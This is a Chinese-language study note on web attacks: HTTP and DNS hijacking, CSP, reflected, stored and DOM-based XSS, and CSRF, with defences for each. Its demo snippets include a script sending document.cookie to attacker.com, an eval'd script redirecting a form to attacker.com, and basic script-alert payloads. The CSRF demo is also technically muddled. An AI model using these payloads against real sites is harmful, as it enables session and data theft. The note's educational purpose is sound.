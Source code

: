 # HTTP 劫持、DNS 劫持与 XSS

- http 劫持是指攻击者在客户端和服务器之间同时建立了连接通道，通过某种方式，让客户端请求发送到自己的服务器，然后自己就拥有了控制响应内容的能力，从而给客户端展示错误的信息，比如在页面中加入一些广告内容。

- DNS 劫持是指攻击者劫持了 DNS 服务器，获得了修改 DNS 解析记录的权限，从而导致客户端请求的域名被解析到了错误的 IP 地址，攻击者通过这种方式窃取用户资料或破坏原有正常服务。

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。
  要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行 HTML 实体编码。

# 什么是 CSP？

CSP（Content-Security-Policy）指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。

通常有两种方式来开启 CSP

- 一种是设置 HTTP 首部中的`Content-Security-Policy`
- 一种是设置 meta 标签的方式
   <meta http-equiv="Content-Security-Policy">


CSP 也是解决 XSS 攻击的一个强力手段

# XSS：Cross-site Scripting

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。

- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行 HTML 实体编码。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>XSS Attack Demo</title>
</head>
<body>
  <h1>XSS Attack Demo</h1>
  <div id="content"></div>
  <script src="payload.js"></script>
</body>
</html>


// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`;

document.getElementById('content').innerHTML = maliciousScript;

```

在上述示例中，恶意脚本 payload.js 被注入到页面中。该脚本通过 XMLHttpRequest 发送 GET 请求，将页面中的 Cookie 信息发送给攻击者控制的服务器。

## XSS 攻击可以分为 3 类：反射型（非持久型）、存储型（持久型）、基于 DOM。

1. 反射型 （Reflected XSS ） 发出请求时，XSS 代码出现在 url 中，作为输入提交到服务器端，服务器端解析后响应，XSS 代码随响应内容一起传回给浏览器，最后浏览器解析执行 XSS 代码。这个过程像一次反射，所以叫反射型 XSS。

假设有一个搜索页面，用户的搜索词通过 URL 参数传递，如 https://example.com/search?q=keyword。
如果服务器将用户输入的搜索词直接反射在页面上，攻击者可以通过构造恶意的 URL 来实施攻击。例如：

```javascript
https://example.com/search?q=<script>alert('XSS')</script>
```

如果这个 URL 被访问，服务器将 <script>alert('XSS')</script> 直接嵌入到 HTML 中，从而弹出一个警告框。

2. 存储型 Stored XSS 和 Reflected XSS 的差别就在于，具有攻击性的脚本被保存到了服务器端（数据库，内存，文件系统）并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

在一个论坛应用中，用户可以提交评论。如果应用没有正确地清理用户提交的数据，攻击者可以提交包含恶意脚本的评论。例如，攻击者可能会提交以下评论：

```javascript
<script>alert('XSS')</script>
```

该脚本存储在服务器上，并且每当任何用户浏览包含该评论的页面时，脚本都会被执行，导致 XSS 攻击。

3. DOM 型 （DOM-based or local XSS） 即基于 DOM 或本地的 XSS 攻击：其实是一种特殊类型的反射型 XSS，它是基于 DOM 文档对象模型的一种漏洞。可以通过 DOM 来动态修改页面内容，从客户端获取 DOM 中的数据并在本地执行。基于这个特性，就可以利用 JS 脚本来实现 XSS 漏洞的利用。

假设有一个网页，用户可以通过输入框输入内容，然后点击按钮将内容显示在页面上。攻击者在输入框中输入了恶意脚本。

```html
<!DOCTYPE html>
<html>
  <head>
    <title>DOM-based XSS Example</title>
  </head>
  <body>
    <input type="text" id="userInput" />
    <button onclick="displayInput()">Submit</button>
    <div id="output"></div>

    <script>
      function displayInput() {
        const userInput = document.getElementById("userInput").value;
        document.getElementById("output").innerHTML = userInput;
      }
    </script>
  </body>
</html>
```

攻击者的输入：

<script>alert('XSS Attack!');</script>

用户点击按钮后，页面的 JavaScript 代码将输入内容直接插入到 DOM 中：

```html
<div id="output">
  <script>
    alert("XSS Attack!");
  </script>
</div>
```

## 防范手段：

1. 输入过滤
2. 输出过滤
3. 加 httponly 请求头 锁死 cookie (浏览器将禁止页面的 Javascript 访问带有 HttpOnly 属性的 Cookie)
4. CSP (Content Security Policy)

# CSRF：Cross-site request forgery

跨站请求伪造

1.  用户打开浏览器，访问受信任网站 A，输入用户名和密码请求登录网站 A；
2.  在用户信息通过验证后，网站 A 产生 Cookie 信息并返回给浏览器，此时用户登录网站 A 成功，可以正常发送请求到网站 A；
3.  用户未退出网站 A 之前，在同一浏览器中，打开一个 TAB 页访问网站 B；
4.  网站 B 接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点 A；
5.  浏览器在接收到这些攻击性代码后，根据网站 B 的请求，在用户不知情的情况下携带 Cookie 信息，向网站 A 发出请求。网站 A 并不知道该请求其实是由 B 发起的，所以会根据用户 C 的 Cookie 信息以 C 的权限处理该请求，导致来自网站 B 的恶意代码被执行。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="transfer-form" action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="Transfer">
  </form>
  <script src="payload.js"></script>
</body>
</html>
```

```javascript
// payload.js
const maliciousScript = `
  const form = document.getElementById('transfer-form');
  form.action = 'http://attacker.com/steal-data';
  form.submit();`;

eval(maliciousScript);
```

在上述示例中，恶意脚本 payload.js 被执行。该脚本修改了表单 transfer-form 的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。

防御 CSRF 攻击有多种手段：

- 不使用 `cookie`
- 为表单添加校验的 `token` 校验
- cookie 中使用 `sameSite`字段
- 服务器检查 `referer` 字段 (记录了该 HTTP 请求的来源地)
